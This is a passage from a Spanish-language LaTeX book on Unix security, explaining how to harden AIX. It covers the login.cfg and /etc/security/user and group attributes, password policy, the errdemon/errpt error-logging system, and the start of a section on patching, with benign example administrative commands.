obviamente indica el intervalo -- en minutos -- que un puerto va a permanecer
bloqueado (si su valor es 0 -- y por defecto lo es -- estar\'a as\'{\i} hasta 
que el administrador lo desbloquee manualmente mediante {\tt chsec}).\\
\\Otra entrada \'util en el archivo {\tt login.cfg} es {\tt logintimes}, que
como su nombre indica define las horas y d\'{\i}as durante las que un puerto
determinado puede ser utilizado para acceder al sistema, algo similar (en idea, 
no en sintaxis) al archivo 
{\tt /etc/porttime} de Linux o al {\tt prot.pwd.DB} de HP-UX 10.x. El formato
utilizado para especificar los intervalos de horas o d\'{\i}as en los que el
acceso se permite (entradas llamadas {\sc allow}) o se deniega (entradas {\sc
deny}) no es inmediato, por lo que es recomendable -- como siempre en Unix -- 
consultar la p\'agina del manual de {\tt login.cfg}. Por defecto, se permite a
todos los usuarios acceder a trav\'es de cualquier l\'{\i}nea sin importar el
d\'{\i}a ni la hora.\\
\\Para finalizar con el \'area de puertos vamos a comentar un par de directivas
que tambi\'en se pueden definir en el archivo {\tt login.cfg}: se trata de
{\tt sak$\_$enabled} y {\tt synonym}. La primera de ellas indica si el {\it
secure attention key} ({\sc sak}) est\'a habilitado en el puerto, lo que implica
que los usuarios pueden obtener una ruta de comunicaci\'on fiable ({\it trusted 
communication path}, {\sc tcp}) mediante la combinaci\'on de teclas {\tt 
Ctrl-X} {\tt Ctrl-R}; en la secci\'on dedicada a la base fiable de c\'omputo de
los sistemas Unix ya hablamos de este tipo de comunicaciones seguras, por lo que
no vamos a entrar aqu\'{\i} en m\'as detalles. La segunda de las directivas a 
las que hac\'{\i}amos referencia, la denominada {\tt synonym}, tiene como 
objetivo definir sin\'onimos para una terminal concreta; est\'a bastante 
relacionada con la primera, ya que restringe el acceso al puerto, que s\'olo se
utilizar\'a para establecer una ruta de comunicaci\'on fiable con el sistema.\\
\\La segunda gran \'area del fichero {\tt /etc/security/login.cfg} hace 
referencia, como dijimos al principio, a los m\'etodos de autenticaci\'on de 
usuarios disponibles en la m\'aquina. M\'as tarde, cuando hablemos del fichero
{\tt /etc/security/user}, veremos que se pueden definir mecanismos secundarios
de autenticaci\'on en el sistema que funcionan de forma independiente o junto
al esquema cl\'asico de nombre de usuario y contrase\~na. Los programas que
implanten estos mecanismos adicionales han de definirse dentro de una {\it 
stanza}, bajo la directiva {\tt `program'}, que le de un nombre al modelo de 
autenticaci\'on que posteriormente se
definir\'a para uno o m\'as usuarios en {\tt /etc/security/user}; insistimos en
la palabra `adicionales', ya que los esquemas de autenticaci\'on cl\'asicos no
requieren definici\'on ({\sc system}, para acceder con nombre de usuario y
contrase\~na, y {\sc none}, para acceder sin autenticaci\'on). Por ejemplo, 
imaginemos que si queremos definir un nuevo m\'etodo basado en claves de un
solo uso al que vamos a denominar {\tt authone} y que est\'a implementado en el 
programa {\tt /usr/local/auth/onetime}; su {\it stanza} ser\'{\i}a similar a la
siguiente:
\begin{quote}
\begin{verbatim}
authone:
    program = /usr/local/auth/onetime
\end{verbatim}
\end{quote}
La \'ultima \'area del archivo proporciona la definici\'on de algunos 
atributos globales de los usuarios bajo una {\it stanza} \'unica: {\tt usw}. El
primero de estos atributos es {\tt logintimeout}, que define el tiempo en 
segundos (60, por defecto) que un usuario tiene para teclear su contrase\~na
cuando el sistema se lo solicita. Un segundo par\'ametro, {\tt maxlogins}, 
define el n\'umero m\'aximo de conexiones simult\'aneas que un usuario puede
abrir en el sistema: el valor por defecto, 100, es a todas luces excesivo en la
mayor parte de entornos, por lo que deber\'{\i}amos especificar un valor 
adecuado a nuestro sistema -- es imposible dar un valor `\'optimo' para esta
directiva --; si el valor de {\tt maxlogins} es 0, el n\'umero m\'aximo de 
conexiones simult\'aneas de un usuario est\'a ilimitado. Finalmente, el \'ultimo
par\'ametro, {\tt shells}, define los int\'erpretes de comandos v\'alidos en la 
m\'aquina, algo similar al archivo {\tt /etc/shells} de otros Unices. Una 
entrada t\'{\i}pica de esta {\it stanza} puede ser similar a la siguiente:
\begin{quote}
\begin{verbatim}
usw:
       shells = /bin/sh,/bin/bsh,/bin/csh,/bin/ksh,/bin/tsh,/usr/bin/sh
       maxlogins = 5
       logintimeout = 30
\end{verbatim}
\end{quote}
\subsection{El fichero {\tt /etc/security/user}}
En {\tt /etc/security/user} se definen atributos extendidos de cada usuario; 
dichos atributos no son m\'as que los no incluidos en el fichero {\tt 
/etc/passwd} convencional de todo sistema Unix: mientras que en este \'ultimo
encontramos datos como el {\it login} o el {\sc uid} de cada usuario, en el
primero tenemos informaci\'on como la fecha de caducidad de las contrase\~nas,
las horas a las que puede conectar cada usuario, o los requisitos de seguridad
m\'{\i}nimos para su clave. Cuando se a\~nade un usuario al sistema mediante 
la orden {\tt mkuser} se genera una nueva {\it stanza} en el fichero
correspondiente al nuevo usuario, con unos atributos por defecto tomados del
archivo {\tt /usr/lib/security/mkuser.default}; existen numerosos atributos 
extendidos para los usuarios, y conocer algunos de ellos es vital para 
incrementar los niveles de seguridad ofrecidos por defecto por AIX. En este 
punto vamos a hablar de estos atributos.\\
\\Una directiva b\'asica almacenada en {\tt /etc/security/user} es {\tt
account$\_$locked}, que evidentemente indica si una cuenta est\'a bloqueada o
no lo est\'a; es una variable booleana, por lo que sus posibles valores son 
sencillamente {\tt true} o {\tt false} (o equivalentemente, {\tt yes} y {\tt
always} o {\tt no} y {\tt never}). Aunque es muy similar a esta, la directiva
{\tt login} (tambi\'en booleana) no es exactamente igual: si su valor es {\tt
false} o equivalente el usuario no puede acceder al sistema, pero su cuenta no
est\'a bloqueada, ya que es posible llegar a ella mediante {\tt su}. Otra 
restricci\'on de acceso para un usuario viene determinada por {\tt rlogin}, que
define si un usuario puede acceder al sistema de forma remota a trav\'es de {\it
telnet} o {\tt rlogin} (otros m\'etodos de acceso, como {\sc ssh}, no son 
controlados por esta directiva).\\
\\El que un usuario no tenga su cuenta bloqueada ni su acceso deshabilitado 
implica que puede utilizar su
{\it login} para entrar -- evidentemente si su autenticaci\'on es correcta -- 
al sistema; algunas caracter\'{\i}sticas de este acceso tambi\'en se definen
en {\tt /etc/security/user}: por ejemplo, las horas y d\'{\i}as que un 
determinado usuario puede acceder al equipo, mediante la directiva {\tt 
logintimes} y las terminales desde las que puede hacerlo, mediante {\tt ttys}.
La sintaxis de la primera es equivalente a la utilizada en el fichero {\tt 
login.cfg}, pero afectando ahora a usuarios concretos y no a puertos, mientras
que la segunda se define mediante una lista de terminales separadas por comas;
alternativamente se pueden usar los comodines {\sc `all'} o {\tt `$\ast$'} para
indicar que el usuario puede acceder a trav\'es de cualquier l\'{\i}nea:
\begin{quote}
\begin{verbatim}
bruja:/# lsuser -a ttys toni
toni ttys=ALL
bruja:/#
\end{verbatim}
\end{quote}
Un grupo de directivas del archivo {\tt /etc/security/user} tambi\'en 
importantes para nuestra seguridad son las relativas a la contrase\~na de cada
usuario; una de ellas es {\tt expires}, que define la fecha de expiraci\'on de
la clave en formato {\sc mmddhhmmyy} (un cero, valor por defecto, indica que el 
{\it password} nunca caduca):
\begin{quote}
\begin{verbatim}
bruja:/# lsuser -a expires toni
toni expires=0
bruja:/#
\end{verbatim}
\end{quote}
Tambi\'en relacionada con el envejecimiento de claves tenemos la directiva
{\tt pwdwarntime}, que define el n\'umero de d\'{\i}as de antelaci\'on con los 
que se avisar\'a a un usuario antes de obligarle a cambiar su contrase\~na. El
periodo de validez de una clave viene indicado en semanas por la directiva {\tt 
maxage}, cuyo valor puede oscilar entre 0 (valor por defecto, que indica que no 
existe caducidad) o 52 (un a\~no de vida); por contra, el tiempo m\'{\i}nimo de 
vida de la contrase\~na se define en {\tt minage}, que puede tomar los mismos 
valores que la directiva anterior. Cuando una clave caduca entra en juego la
directiva {\tt maxexpired}, que indica en semanas el tiempo durante el que se
permite a un usuario (antes de bloquear su cuenta) acceder al sistema para 
cambiar su {\it password}, y cuyo valor oscila entre -1 (tiempo ilimitado) y
52 (un a\~no).\\
\\Cuando un usuario cambia su contrase\~na, obligado o no por el sistema, entran
en juego otra serie de par\'ametros tambi\'en definidos en el fichero {\tt
/etc/security/user}: los relativos a las caracter\'{\i}sticas que ha de poseer
una clave del sistema. Sin duda uno de los m\'as importantes para la seguridad,
y que no aparece en otros Unices habituales, es {\tt dictionlist}; esta
directiva permite definir ficheros de diccionario (indicando las rutas 
absolutas de los mismos separadas por comas) contra los que se comprobar\'a 
cada clave nueva elegida por un usuario. Los ficheros han de ser simples 
archivos de texto con palabras habituales -- o modificaciones de las mismas -- 
utilizadas en un lenguaje o \'area espec\'{\i}fica, similares a los utilizados 
como entrada de un programa rompedor de contrase\~nas tipo {\it Crack} o {\it 
John the Ripper}. Adicionalmente, AIX permite indicar m\'etodos alternativos
para comprobar la robustez de una clave mediante la directiva {\tt pwdchecks},
que define m\'etodos de comprobaci\'on cargados en tiempo de ejecuci\'on cuando
un usuario ejecuta {\tt passwd} para cambiar su contrase\~na.\\
\\Siguiendo con los par\'ametros relativos a las claves de usuario tenemos una
serie de directivas que son b\'asicas para garantizar la robustez de las
contrase\~nas; una de ellas es {\tt minlen}, que marca la longitud m\'{\i}nima
de una clave y que por defecto est\'a a cero (un valor m\'as adecuado ser\'{\i}a
seis). Adem\'as, mediante {\tt minalpha} y {\tt minother} podemos definir el 
n\'umero
m\'{\i}nimo de caracteres alfab\'eticos y no alfab\'eticos (respectivamente)
exigibles en una clave; como en el anterior caso, el valor por defecto de ambos 
es cero, por lo que es recomendable aumentarlo como m\'{\i}nimo hasta dos, para
garantizar que todo {\it password} tiene por lo menos un par de letras y un par
de caracteres num\'ericos o de s\'{\i}mbolos. Otra directiva interesante es
{\tt maxrepeats}, que permite especificar el n\'umero m\'aximo de veces que un
determinado car\'acter puede aparecer en una clave; su valor por defecto es ocho
(ilimitado), y como siempre es importante modificar esta variable para darle un
valor diferente y acorde a nuestra pol\'{\i}tica de seguridad: por ejemplo dos, 
de forma que una misma letra, n\'umero o signo no aparezca m\'as de un par de 
veces en la clave de un usuario; adem\'as, AIX tambi\'en permite obligar a los
usuarios a utilizar un cierto n\'umero de caracteres nuevos en una clave 
(caracteres no usados en el anterior {\it password}) mediante la directiva {\tt
mindiff}, cuyo valor puede oscilar entre 0 (por defecto) y 8, que obligar\'{\i}a
al usuario a utilizar s\'olo caracteres nuevos en su clave.\\
\\Otras directivas relacionadas con las caracter\'{\i}sticas de una clave son 
las relativas a los hist\'oricos de contrase\~nas: en primer lugar, {\tt
histexpire} marca el periodo (en semanas) que un usuario no puede reutilizar su
clave antigua. Su valor por defecto es cero, lo cual evidentemente no beneficia
mucho nuestra seguridad, por lo que es recomendable asignarle a esta directiva 
un valor entre 12 (unos tres meses) y 52 (un a\~no); por su parte, mediante 
{\tt histsize} podemos indicar el n\'umero de contrase\~nas antiguas que no 
pueden ser reutilizadas (hasta cincuenta), lo que combinado con el valor 
m\'aximo aceptado por {\tt histexpire} (260 semanas, o, lo que es lo mismo, 
cinco a\~nos) nos da una idea de la potencia de AIX en la gesti\'on de sus 
claves: m\'as que suficiente en la mayor parte de entornos.\\
\\Una entrada de {\tt /etc/security/user} que hay que tratar con mucho cuidado,
ya que incluso puede ser peligrosa para la seguridad de nuestros usuarios, es
{\tt loginretries}; indica el n\'umero de intentos fallidos de acceso al sistema
que puede efectuar un usuario antes de que su cuenta se bloquee. Evidentemente,
esto nos puede ayudar a detener a un atacante que intente acceder al sistema 
adivinando la contrase\~na de alguno de nuestros usuarios, pero es tambi\'en 
un arma de doble filo: si un pirata quiere causar una negaci\'on de servicio a
uno o varios usuarios, no tiene m\'as que introducir el {\it login} de los 
mismos y contrase\~nas aleatorias cuando el sistema se lo solicita, lo que 
har\'a que AIX inhabilite el acceso leg\'{\i}timo de esos usuarios causando un
perfecto ataque de negaci\'on de servicio contra los mismos. Quiz\'as en la
mayor parte de los sistemas sea una buena idea no habilitar esta directiva 
(asign\'andole un valor de 0, el que tiene por defecto), y prevenir el hecho de
que un pirata pueda `adivinar' una contrase\~na implantando unas pol\'{\i}ticas
de claves adecuadas.\\
\\Otras directivas interesantes de {\tt /etc/security/user} son las relativas a
los esquemas de autenticaci\'on de usuarios seguidos en el sistema; {\tt auth1}
define el m\'etodo de autenticaci\'on primario de un usuario y acepta tres 
valores que se pueden combinar entre s\'{\i}: {\sc none} (no existe 
autenticaci\'on), {\sc system} (el m\'etodo cl\'asico basado en {\it login} y 
{\it password}), y finalmente {\tt token;argument}. Sin duda este \'ultimo es
el m\'as interesante, ya que permite a un administrador utilizar m\'etodos 
alternativos -- por s\'{\i} s\'olos o, m\'as habitual, combinados con el 
cl\'asico basado en {\it login} y {\it password} -- para autenticar a uno o
varios usuarios. Estos m\'etodos ({\tt `token'}) han de estar definidos 
mediante una {\it stanza} v\'alida, como ya vimos, en el archivo {\tt 
/etc/security/login.cfg}, y el programa que los implemente ser\'a ejecutado
recibiendo como primer par\'ametro el argumento {\tt `argument'} definido en la
entrada.\\
\\Imaginemos una situaci\'on en la que la autenticaci\'on m\'ultiple nos puede
resultar \'util: queremos que ciertos usuarios del sistema, aparte de 
autenticarse con su {\it login} y {\it password}, tengan que proporcionar una
clave adicional para acceder a la m\'aquina, por ejemplo la de un usuario 
especial
sin acceso real (sin {\it shell} ni acceso {\tt ftp}). Si uno de esos usuarios
es {\tt toni} y el usuario especial es {\tt sistemas}, deber\'{\i}amos definir 
la entrada {\tt auth1} de {\tt toni} para que se efectue en primer lugar la
autenticaci\'on cl\'asica y posteriormente se pida la clave de {\tt sistemas}
-- modelo {\sc system} pero en este caso con el par\'ametro {\tt `sistemas'} 
--; esto lo conseguimos ejecutando la orden {\tt chuser} (o equivalentemente
modificando el fichero {\tt /etc/security/user} con un simple editor, aunque es 
recomendable la primera aproximaci\'on):
\begin{quote}
\begin{verbatim}
bruja:/# chuser "auth1=SYSTEM,SYSTEM;sistemas" toni
bruja:/# lsuser -a auth1 toni
toni auth1=SYSTEM,SYSTEM;sistemas
bruja:/# 
\end{verbatim}
\end{quote}
Cuando {\tt toni} trate de acceder al sistema se le solicitar\'a su clave y, si
esta es correcta, la clave de {\tt sistemas}; si esta \'ultima tambi\'en es
v\'alida el acceso se permitir\'a, deneg\'andose en caso contrario\footnote{Esto
es as\'{\i} en accesos {\tt telnet} o {\tt r-$\ast$}; {\sc ssh} ignorar\'a el
segundo esquema de autenticaci\'on, proporcionando acceso s\'olo con la clave
de {\tt toni}.}.\\
\\Otra directiva relacionada con la autenticaci\'on de usuarios es {\tt auth2}, 
que define los m\'etodos secundarios de autenticaci\'on en el sistema; aunque
la idea y sintaxis de los m\'etodos secundarios es similar a los definidos en 
{\tt auth1}, la principal diferencia con estos es que los secundarios no son de 
obligado cumplimiento: para acceder al
sistema, un usuario ha de autenticarse correctamente en todos los m\'etodos
primarios, y si lo hace, aunque falle en los secundarios, el acceso es 
permitido. Esto puede parecer parad\'ojico pero no lo es en absoluto: los 
m\'etodos definidos en {\tt auth2} no sustituyen a los definidos en {\tt auth1},
sino que se utilizan {\bf de forma adicional} para otorgar otros privilegios a 
un usuario determinado; el caso t\'{\i}pico puede ser el de Kerberos: cuando un
usuario se autentica correctamente en una m\'aquina, con su {\it login} y 
contrase\~na, el m\'etodo secundario puede solicitarle una clave adicional para 
otorgarle credenciales de Kerberos; si esta clave no es correcta el usuario 
accede al sistema como m\'aquina aislada, pero sin las credenciales que le
autentiquen en el dominio. Adem\'as, los m\'etodos definidos en {\tt auth2}
permiten especificar programas no relacionados con la autenticaci\'on, pero que 
nos interesa que se ejecuten cuando un usuario accede al sistema.\\
\\La \'ultima directiva de {\tt /etc/security/user} relacionada con la 
autenticaci\'on de usuarios es {\sc system}, que en AIX 4.x puede ser utilizada
para describir diferentes m\'etodos de autenticaci\'on: {\sc none} (sin 
autenticaci\'on), {\tt `files'}, si s\'olo
se efectua una autenticaci\'on local basada en las claves almacenadas en {\tt
/etc/security/passwd}, {\tt `compat'}, si a lo anterior le a\~nadimos un entorno
{\sc nis}, y {\sc dce}, si estamos trabajando con autenticaci\'on en un entorno
distribuido. Como medida de seguridad b\'asica, la propia IBM recomienda que el 
{\tt root} de un sistema AIX s\'olo se autentique a trav\'es de ficheros de 
contrase\~nas locales (la entrada {\sc system} de la {\it stanza} del 
superusuario ha de tener como valor {\tt `files'}).\\
\\Una vez que un usuario se ha autenticado correctamente y ha accedido al 
sistema entran en juego otra serie de directivas que nos pueden resultar 
interesantes de cara a nuestra seguridad. La menos importante es {\tt umask},
que como su nombre indica define, mediante tres d\'{\i}gitos octales, la 
m\'ascara por defecto de cada usuario; decimos que es la menos importante 
porque, como sucede en cualquier Unix, el usuario puede modificar ese valor por
defecto siempre que lo desee, simplemente ejecutando la orden {\tt umask} desde
l\'{\i}nea de comandos.\\
\\Dos entradas que tambi\'en afectan a la seguridad de usuarios ya dentro del
sistema son {\tt su} y {\tt sugroups}; la primera, cuyo valor puede ser {\tt
true} o {\tt false} (o sus equivalentes), indica si los usuarios de la m\'aquina
pueden ejecutar la orden {\tt su} para cambiar su identidad a la del usuario en
cuya {\it stanza} se ha definido la directiva: ojo, no se trata de limitar la
ejecuci\'on de {\tt su} a un usuario concreto, sino de limitar al resto la 
posibiliad de convertirse en ese usuario a trav\'es de este comando. Asignar a
la directiva {\tt su} el valor de {\tt true} puede ayudarnos a proteger ciertas
cuentas especiales de la m\'aquina que no nos interesa que sean alcanzadas de
ninguna forma por el resto de usuarios. Por su parte, la segunda entrada a la
que hac\'{\i}amos referencia, {\tt sugroups}, define los grupos cuyos miembros
pueden (o que no pueden, si precedemos su nombre por el s\'{\i}mbolo {\tt `!'})
acceder mediante la orden {\tt su} a una cuenta determinada, evidentemente si
el valor de la directiva {\tt su} de esa cuenta es verdadero.\\
\\Para finalizar este punto vamos a comentar brevemente un \'ultimo grupo de
directivas dentro del archivo {\tt /etc/security/user} que definen 
caracter\'{\i}sticas de los usuarios del sistema. En primer lugar, {\tt admin}
define el estado administrativo de un usuario: si es administrador o si no lo
es; en caso afirmativo s\'olo el {\tt root} puede modificar las 
caracter\'{\i}sticas de ese usuario. Independientemente del estado 
administrativo de un usuario, cada uno puede ser administrador de grupos 
concretos (grupos que no sean administrativos, ya que en este caso, como sucede
con la definici\'on de usuarios, s\'olo el {\tt root} puede modificar sus 
par\'ametros); entra entonces en juego el valor de {\tt admgroups}, que indica
los grupos (separados por comas) de los que el usuario es administrador.\\
\\Otra caracter\'{\i}stica de cada usuario es la posibilidad del mismo de 
ejecutar tareas relacionadas con el {\sc src}; es controlada por la directiva 
{\tt daemon}, que puede tomar el valor de verdadero o falso. La entrada {\tt 
registry} define la forma de gestionar la autenticaci\'on de un usuario 
concreto: en
local ({\tt files}) o en entornos distribuidos ({\sc nis} o {\sc dce}). Por
\'ultimo, {\tt tpath} marca las caracter\'{\i}sticas del {\it Trusted Path}: 
{\tt nosak}, si el {\it Secure Attention Key} (recordemos, {\tt Ctrl-X 
Ctrl-R} en AIX) no tiene efecto, {\tt on}, si al pulsar el {\sc sak} se accede
al {\it Trusted Path}, {\tt always}, si siempre que un usuario accee al sistema
lo hace al {\it Trusted Path}, y finalmente {\tt notsh}, que desconecta al 
usuario al pulsar {\tt Ctrl-X Ctrl-R}, lo que implica que nunca puede estar
en el {\it Trusted Path}.
\subsection{El fichero {\tt /etc/security/group}}
En el archivo {\tt /etc/security/group} se pueden definir atributos para cada
uno de los grupos del sistema (especificados, como en el resto de Unices, en
el fichero {\tt /etc/group}); de cara a la seguridad, son principalmente dos
los atributos que m\'as nos interesan en un entorno convencional: {\tt admin} y
{\tt adms}. El primero de ellos, la directiva {\tt admin}, es booleano (es 
decir, su valor puede ser {\tt `true'} o {\tt `false'}), y define el estado 
administrativo del grupo al que afecta. El que un grupo sea administrativo 
implica que s\'olo el administrador puede cambiar atributos del mismo, mientras
que si no lo es aparte del {\tt root} pueden hacerlo los usuarios pertenecientes
al grupo {\tt security}; en este \'ultimo caso entra en juego la directiva {\tt
adms}, que define los administradores de grupos no administrativos. Estos 
administradores de un grupo tienen capacidad para ejecutar ciertas tareas sobre 
\'el, como a\~nadir o eliminar usuarios o administradores del mismo.\\
\\La {\it stanza} de un grupo determinado suele ser similar a la siguiente:
\begin{quote}
\begin{verbatim}
pruebas:
        adms = root,toni
        admin = false
\end{verbatim}
\end{quote}
Igual que existen \'ordenes propias de AIX para consultar atributos de los 
usuarios o modificarlos ({\tt lsuser}, {\tt chuser}, {\tt rmuser}\ldots), en el 
caso de los grupos existen comandos equivalentes: {\tt lsgroup}, {\tt 
chgroup}\ldots Su uso es muy similar al de los primeros:
\begin{quote}
\begin{verbatim}
bruja:/# lsgroup pruebas
pruebas id=201 admin=false users= adms=root,toni
bruja:/# 
\end{verbatim}
\end{quote}
Los atributos de grupo que aparecen en el archivo {\tt /etc/security/group} se
denominan, como en el caso de los usuarios y el fichero {\tt 
/etc/security/user}, extendidos; los b\'asicos se encuentran en el mismo lugar 
que en cualquier otro Unix: en
{\tt /etc/group}, donde se definen los grupos, su clave, su {\sc gid} y los
usuarios que pertenecen a cada uno de ellos de forma secundaria. En AIX, la
pertenencia al grupo especial {\tt `system'} permite a un usuario realizar
ciertas tareas administrativas sin necesidad de privilegios de administrador.
Algo similar sucede con el grupo {\tt `security'}, que permite a sus usuarios
gestionar parcialmente algunos aspectos de la seguridad en el sistema (les 
proporciona acceso al directorio {\tt /etc/security/} y su contenido, para, por 
ejemplo, modificar atributos de los usuarios no administrativos); por defecto, 
en AIX el grupo {\tt `staff'} es el que engloba a los usuarios normales.
\section{El sistema de {\it log}}
Al igual que sucede en cualquier sistema Unix, en AIX la informaci\'on y los 
errores generados por eventos en el sistema son gestionados por el demonio {\tt 
syslogd}, que en funci\'on de su configuraci\'on (en el 
archivo {\tt /etc/syslogd.conf}) env\'{\i}a sus
registros a consola, a un fichero, a un programa, a otro sistema\ldots tal y
como se explica en el cap\'{\i}tulo dedicado a la auditor\'{\i}a de sistemas 
Unix. No obstante, adem\'as de {\tt syslogd}, AIX proporciona otro mecanismo 
para la gesti\'on de errores y mensajes del {\it hardware}, del sistema 
operativo y de las aplicaciones, ofreciendo una informaci\'on muy valiosa para
determinar cualquier tipo de problemas en el entorno (\cite{kn:skl01}); mientras
que por defecto {\tt syslogd} no realiza ning\'un tipo de registro en AIX, 
este sistema no necesita ning\'un tipo de configuraci\'on adicional para 
comenzar a realiza su trabajo. Adem\'as, viene `de serie', ya que este 
mecanismo adicional forma parte de los paquetes {\tt bos.rte} y {\tt 
bos.sysmgt.serv$\_$aid}, instalados por defecto con el operativo:
\begin{quote}
\begin{verbatim}
bruja:/etc# lslpp -l bos.rte bos.sysmgt.serv_aid
  Fileset                    Level  State      Description         
  --------------------------------------------------------------------------
Path: /usr/lib/objrepos
  bos.rte                 4.3.3.10  COMMITTED  Base Operating System Runtime
  bos.sysmgt.serv_aid     4.3.3.50  COMMITTED  Software Error Logging and
                                               Dump Service Aids

Path: /etc/objrepos
  bos.rte                  4.3.3.0  COMMITTED  Base Operating System Runtime
  bos.sysmgt.serv_aid     4.3.3.50  COMMITTED  Software Error Logging and
                                               Dump Service Aids
bruja:/etc# 
\end{verbatim}
\end{quote}
Al arrancar una m\'aquina AIX desde {\tt /etc/inittab} se invoca a {\tt 
/sbin/rc.boot}, {\it shellscript} donde se inicializa el demonio {\tt 
errdemon}, 
encargado de monitorizar con\-t\'{\i}\-nua\-men\-te el archivo {\tt /dev/error} 
y crear los registros de error en el fichero correspondiente; a diferencia de
{\tt syslogd}, {\tt errdemon} no escribe una entrada cada vez que se registra
un evento, sino que lo hace mediante {\it buffers} tal y como se le indica en 
su base de datos de notificaci\'on de errores, {\tt /etc/objrepos/errnotify}.
Adem\'as, el registro de errores por defecto se mantiene en {\tt 
/var/adm/ras/errlog}, mientras que el \'ultimo {\it log} generado se guarda en 
memoria NVRAM de forma que en el arranque del sistema se a\~nade al registro
cuando se inicializa el demonio.\\
\\Los registros guardados por {\tt errdemon} est\'an en modo binario (a
diferencia de los {\it logs} habituales en Unix) por defecto, como hemos
comentado, dentro del fichero 
{\tt /var/adm/ras/errlog}; de esta forma, para visualizarlos
necesitaremos ciertas herramientas que vienen con el sistema; podemos utilizar 
desde l\'{\i}nea de comandos la orden {\tt errpt} o bien -- como siempre en AIX 
-- invocarla desde {\sc smit}. En cualquier caso, mediante esta herramienta
se genera en tiempo real un informe de errores:
\begin{quote}
\begin{verbatim}
bruja:/# errpt |head -2   
IDENTIFIER TIMESTAMP  T C RESOURCE_NAME  DESCRIPTION
AA8AB241   0506081102 T O OPERATOR       OPERATOR NOTIFICATION
bruja:/#
\end{verbatim}
\end{quote}
Como podemos ver, cada l\'{\i}nea mostrada por esta orden es uno de los 
registros procesados; la primera columna es un identificador de error \'unico y
la segunda indica la hora en que se gener\'o el mismo en formato {\tt 
mmddhhmmyy} (mes, d\'{\i}a, hora, minuto y a\~no). La tercera describe el tipo
de error registrado: una `T' indica que es temporal, una `P' que es permanente y
una `U' que es desconocido. La cuarta columna define la clase del error (`S'
para errores {\it software}, `H' para {\it hardware} y `O' para entradas 
generadas mediante {\tt errlogger}, como veremos despu\'es). Finalmente, la 
quinta columna indica el recurso afectado, y la \'ultima una descripci\'on del
error. Si pensamos que el formato es algo complicado de interpretar a simple
vista (quiz\'as tengamos raz\'on), podemos utilizar la opci\'on {\tt `-a'} de
la orden, que muestra los registros con un mayor nivel de detalle, hasta el
punto de indicar las posibles causas del problema y su soluci\'on (aunque 
realmente esta informaci\'on no es tan \'util como pueda parecer en principio):
\begin{quote}
\begin{verbatim}
bruja:/# errpt -a|head -36
-------------------------------------------------------------------------
LABEL:          SRC
IDENTIFIER:     E18E984F

Date/Time:       Mon May  6 07:02:05 
Sequence Number: 30479
Machine Id:      000000375C00
Node Id:         bruja
Class:           S
Type:            PERM
Resource Name:   SRC

Description
SOFTWARE PROGRAM ERROR

Probable Causes
APPLICATION PROGRAM

Failure Causes
SOFTWARE PROGRAM

        Recommended Actions
        PERFORM PROBLEM RECOVERY PROCEDURES

Detail Data
SYMPTOM CODE
           0
SOFTWARE ERROR CODE
       -9017
ERROR CODE
           9
DETECTING MODULE
'srchevn.c'@line:'288'
FAILING MODULE
qdaemon
-------------------------------------------------------------------------
bruja:/# 
\end{verbatim}
\end{quote}
El archivo {\tt errlog} es un registro circular, es decir, almacena tantas
entradas como se define al arrancar el demonio {\tt errdemon}. Al llegar una
nueva entrada, se almacena primero en un {\it buffer} intermedio para minimizar
la probabilidad de p\'erdida del registro, y a continuaci\'on se pasa al 
fichero {\tt errlog}; en este punto, si se va a sobrepasar el tama\~no m\'aximo 
del archivo, se elimina la primera entrada registrada. Podemos consultar los
par\'ametros de configuraci\'on actuales mediante {\tt errdemon}, y quiz\'as 
nos interese tambi\'en modificar alguno de ellos en el arranque del sistema; 
por ejemplo, \cite{kn:bha01} recomienda incrementar el tama\~no por defecto de 
los {\it buffers} y del archivo de {\it log} para obtener un mejor registro de 
auditor\'{\i}a:
\begin{quote}
\begin{verbatim}
bruja:/# /usr/lib/errdemon -l
Error Log Attributes
---------------------------------------------
Log File                /var/adm/ras/errlog
Log Size                1048576 bytes
Memory Buffer Size      8192 bytes
bruja:/# /usr/lib/errdemon -s4194304 -B32768
The error log memory buffer size you supplied will be rounded up
to a multiple of 4096 bytes.
bruja:/# /usr/lib/errdemon -l
Error Log Attributes
---------------------------------------------
Log File                /var/adm/ras/errlog
Log Size                4194304 bytes
Memory Buffer Size      32768 bytes
bruja:/# 
\end{verbatim}
\end{quote}
Otra herramienta interesante para trabajar con el sistema de registro de AIX
es {\tt errlogger}; la funcionalidad de la misma es similar a la de la orden
{\tt logger} en otros Unices: a\~nadir entradas al fichero de {\it log} desde
l\'{\i}nea de comandos, por ejemplo a la hora de registrar eventos desde un
{\it shellscript}:
\begin{quote}
\begin{verbatim}
bruja:/# errlogger Mensaje de prueba
bruja:/# errpt |head -2   
IDENTIFIER TIMESTAMP  T C RESOURCE_NAME  DESCRIPTION
AA8AB241   0506081102 T O OPERATOR       OPERATOR NOTIFICATION
bruja:/# errpt -a |head -25
-------------------------------------------------------------------------
LABEL:          OPMSG
IDENTIFIER:     AA8AB241

Date/Time:       Mon May  6 08:11:54 
Sequence Number: 30480
Machine Id:      000000375C00
Node Id:         bruja
Class:           O
Type:            TEMP
Resource Name:   OPERATOR

Description
OPERATOR NOTIFICATION

User Causes
ERRLOGGER COMMAND

        Recommended Actions
        REVIEW DETAILED DATA

Detail Data
MESSAGE FROM ERRLOGGER COMMAND
Mensaje de prueba
-------------------------------------------------------------------------
bruja:/#
\end{verbatim}
\end{quote}
AIX ofrece m\'as herramientas para realizar diferente tareas sobre su sistema 
nativo de {\it log}: eliminar entradas ({\tt errclear}), instalar nuevas 
entradas en el archivo de configuraci\'on ({\tt errinstall}), detener el 
demonio {\tt errdemon} ({\tt errstop}); para obtener informaci\'on adicional
podemos consultar el cap\'{\i}tulo 10 de \cite{kn:ibm97c}. El sistema de {\it 
log} en AIX es una de las caracter\'{\i}sticas m\'as potentes que 
el operativo nos ofrece, proporcionando un nivel de detalle y granularidad en
la clasificaci\'on de eventos muy superior al de {\tt syslogd}; no obstante, la
cantidad de informaci\'on registrada, y el hecho de que no existan herramientas
`de serie' (realmente s\'{\i} que las hay, en muchos casos simples {\it 
scripts} desarrolladas por terceros) que informen de alg\'un modo especial ante
errores graves, hacen que no se consulte mucho el {\it log} y se pierdan 
entradas que son importantes, no s\'olo en lo referente a la seguridad del
sistema sino tambi\'en en lo que concierne a su estabilidad.
\section{El sistema de parcheado}
Antes de empezar a hablar sobre el parcheado y la actualizaci\'on de un sistema 
AIX es conveniente aclarar un poco la nomenclatura que IBM sigue en su 
distribuci\'on de su {\it software} (\cite{kn:ibm00b}); el formato instalable 
m\'as peque\~no se
